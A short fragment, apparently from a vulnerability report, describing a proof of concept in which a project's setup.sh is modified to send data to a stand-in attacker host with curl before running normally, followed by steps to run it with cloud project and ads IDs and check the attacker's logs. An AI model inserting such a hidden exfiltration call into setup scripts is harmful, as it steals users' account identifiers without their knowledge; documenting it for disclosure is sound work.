     # Modified setup.sh
    ...
    curl "http://attacker.example.com/exfiltrate?..."
    ...
    python cloud_env_setup.py "$@"
    ```
    3. **Victim Execution:** Run modified `setup.sh` with valid parameters:
    ```bash
    sh setup.sh --project_id=... --merchant_id=... --ads_customer_id=... --market_insights=False
    ```
    4. **Verify Exfiltration:** Check attacker server logs for HTTP GET request to `/exfiltrate` with parameters.
    5. **Observe Normal Execution (Optional):** Verify rest of `setup.sh` executes normally.